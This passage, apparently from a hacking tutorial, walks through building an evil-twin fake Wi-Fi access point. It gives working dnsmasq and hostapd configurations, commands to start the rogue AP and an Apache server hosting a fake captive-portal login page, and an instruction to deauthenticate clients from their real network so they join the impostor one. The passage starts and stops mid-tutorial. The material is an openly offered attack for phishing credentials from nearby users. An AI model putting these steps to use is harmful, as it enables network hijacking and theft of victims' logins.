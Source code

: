 		#Set the gateway IP address
		dhcp-option=3,10.0.0.1

		#Set dns server address
		dhcp-option=6,10.0.0.1

		#Redirect all requests to 10.0.0.1
		address=/#/10.0.0.1

SAVE THE ABOVE AS dnsmasq.conf

Lets explain the lines ---> First line we need to specify our interface,  2nd line we assigned an ip range to clients - here the range is from 10.0.0.10 to 10.0.0.100 which is valid for 8 hours,  3rd line is the gateway ip(dont know what 3 is),  The 4th line is also the ip of the gateway/router(dont know what 6 is),   The last line will make all the request anyone makes on this fake AP will be redirected to that IP.

Now let's start dnsmasq:

▶️> dnsmasq -C /root/downloads/dnsmasq.conf

It will excecute without any error. Now we have a dns and dhcp server running in background.

Now we need to start the fake access point:

		#Set wifi interface
		interface=wlan0

		#Set network name
		ssid=Free internet

		#Set chennel
		channel=1

		#Set driver
		driver=nl80211
		
THIS IS THE CONFIG FILE FOR HOSTAPD

▶️> hostapd /root/downloads/hostpad.conf -B

This will start  the fake AP.

Now if we do ifconfig we dont have an ip address because we stopped our network manager. Let's mannually assign an ip
:
▶️> ifconfig wlan0 10.0.0.1 netmask 255.255.255.0 [we choose this ip because this ip is used in all the configuration files]

Now we have ip address also.

Now start our webserver that contains the login page files:

▶️> service apache2 start

Now do a deauthentication attack to disconnect clients from the network and force them to connect to our network (We can use the same name of that network for our fake AP)

Now they will connect and when they browse they will go to our fake captive portal login page.

But we need to display it automatically to the user without them to browse:
The request send to www.websites.com should be handled to juust websites.com, so we need to remove the www to handle this issue.
For this we just need to modify the configuration of apache:
▶️> gedit /etc/apache2/sites-enabled/000.default.conf
